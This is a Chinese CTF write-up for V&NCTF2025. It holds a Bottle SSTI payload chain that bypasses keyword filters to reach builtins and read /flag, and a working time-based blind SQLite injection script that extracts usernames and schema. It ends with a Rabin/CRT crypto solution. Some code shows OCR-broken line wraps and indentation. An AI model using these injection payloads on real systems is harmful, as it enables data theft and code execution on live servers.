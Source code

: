 ```yaml
---
title: V&NCTF2025
date: 2025-02-16 21:02:32
tags: 复现
categories: 比赛复现
---
```


### Web

#### **学生姓名登记系统（ssti继承）**

题目提示说用了某个单文件框架，我们通过查找发现python本体的单文件框架是bottle

绕过长度限制，题目主页面也有提示“一行一个名字”，输入`{{7*7}}%0a{{8*8}}`会发现回显了 49 和 64

![image-20250216211727895](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502162117010.png)

同时，bottle 是使用的 SimpleTemplate 模板引擎，查阅文档了解到，这个模版里面可以使用任何 python 表达式，也就是运行执行任意单行 python 代码。

![image-20250216212003058](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502162120108.png)

我们可以尝试使用`{{print(5)}}`发现没有回显，但其实是在控制台输出了 5，这个语句成功执行了

接下来我们需要判断每一行之间的语句是否有关联

我们尝试

```
{{a:=5}}%0a{{a*a}}
```

成功打印5和25

![image-20250216212813081](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502162128129.png)

既然是上下文的关系，我们打个可以继承的ssti链（过滤了一些关键字）

```
name={{a:=''}}%0a{{b:=a.__class__}}%0a{{c:=b.__base__}}%0a{{d:=c.__subclasses__}}%0a{{e:=d()[156]}}%0a{{f:=e.__init__}}%0a{{g:=f.__globals__}}%0a{{z:='__builtins__'}}%0a{{h:=g[z]}}%0a{{i:=h['op''en']}}%0a{{x:=i("/flag")}}%0a{{y:=x.read()}}
```

得到flag

![image-20250216213801702](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502162138759.png)

#### **奶龙回家**

sqlite时间盲注，我们需要fuzz一下

过滤了

```
union = sleep bench 
```

参考文章

https://www.freebuf.com/articles/network/324785.html

我们用/**/代替空格，使用 randomblob 来进行延时

```
import requests
import time
url = 'http://node.vnteam.cn:46017/login'
flag = ''
for i in range(1,500):
low = 32
high = 128
mid = (low+high)//2
while(low<high):
 time.sleep(0.2)
 payload = "-
1'/**/or/**/(case/**/when(substr((select/**/hex(group_concat(usern
ame))/**/from/**/users),{0},1)>'{1}')/**/then/**/randomblob(500000
00)/**/else/**/0/**/end)/*".format(i,chr(mid))
 # payload = "-
1'/**/or/**/(case/**/when(substr((select/**/hex(group_concat(sql))
/**/from/**/sqlite_master),{0},1)>'{1}')/**/then/**/randomblob(300
000000)/**/else/**/0/**/end)/*".format(i,chr(mid))
 datas = {
 "username":"123",
 "password": payload
 }
 # print(datas)
 start_time=time.time()
 res = requests.post(url=url,json=datas)
 end_time=time.time()
 spend_time=end_time-start_time
 if spend_time>=0.19:
 low = mid+1
 else:
 high = mid
 mid = (low+high)//2
if(mid ==32 or mid ==127):
 break
flag = flag+chr(mid)
print(flag)
print('\n'+bytes.fromhex(flag).decode('utf-8'))
```

### Crypto

#### **easymath**

解法一：

由于e较小，用中国剩余定理可以解

```py
from sympy import symbols, Eq, solve
from sympy.ntheory import isprime, sqrt_mod
from Crypto.Util.number import long_to_bytes

# 给定的参数
c = 24884251313604275189259571459005374365204772270250725590014651519125317134307160341658199551661333326703566996431067426138627332156507267671028553934664652787411834581708944
sum_n = 15264966144147258587171776703005926730518438603688487721465
sum_n2 = 76513250180666948190254989703768338299723386154619468700730085586057638716434556720233473454400881002065319569292923
prod_n = 125440939526343949494022113552414275560444252378483072729156599143746741258532431664938677330319449789665352104352620658550544887807433866999963624320909981994018431526620619

# 求解 n0, n1, n2
x, y, z = symbols('x y z')
eq1 = Eq(x + y + z, sum_n)
eq2 = Eq(x * y + x * z + y * z, sum_n2)
eq3 = Eq(x * y * z, prod_n)
solutions = solve((eq1, eq2, eq3), (x, y, z))
n_values = [int(sol) for sol in solutions[0]]

# 计算 N
N = n_values[0] * n_values[1] * n_values[2]
assert N == prod_n  # 验证计算正确

# 在每个模数上求平方根
roots = [sqrt_mod(c, p, all_roots=True) for p in n_values]

# 计算可能的 flag
from sympy.ntheory.modular import crt
possible_flags = []
for r0 in roots[0]:
    for r1 in roots[1]:
        for r2 in roots[2]:
            flag, _ = crt(n_values, [r0, r1, r2])
            possible_flags.append(flag)
print(roots)
# 找出正确的 flag
for flag in possible_flags:
    flag_bytes = long_to_bytes(flag)
    if b'VNCTF{' in flag_bytes:
        print("Recovered flag:", (flag_bytes))
        break
```

解法二：

已知e=2，我们用rabin 算法解

```py
from sympy import symbols, Eq, solve
from Crypto.Util.number import *
import itertools
x = symbols('x')
c = 
248842513136042751892595714590053743652047722702507255900146515191
253171343071603416581995516613333267035669964310674261386273321565
07267671028553934664652787411834581708944
polynomial = x**3 -
15264966144147258587171776703005926730518438603688487721465*x**2 + 
765132501806669481902549897037683382997233861546194687007300855860
57638716434556720233473454400881002065319569292923*x -
125440939526343949494022113552414275560444252378483072729156599143
746741258532431664938677330319449789665352104352620658550544887807
433866999963624320909981994018431526620619
n = solve(Eq(polynomial, 0), x)
N = 1
for p in n:
 N *= p
def crt(primes, remainders):
 result = 0
 for i in range(len(primes)):
 Mi = N // primes[i]
 inv = inverse(Mi, primes[i])
 result += remainders[i] * Mi * inv
 return result % N
roots = [pow(c, (int(p) + 1) // 4, int(p)) for p in n]
# 遍历所有可能的符号组合
for signs in itertools.product([1, -1], repeat=3):
 adjusted_roots = [
 signs[0] * roots[0] % n[0],
 signs[1] * roots[1] % n[1],
 signs[2] * roots[2] % n[2]
 ]
 flag = crt(n, adjusted_roots)
 print(long_to_bytes(flag))
```

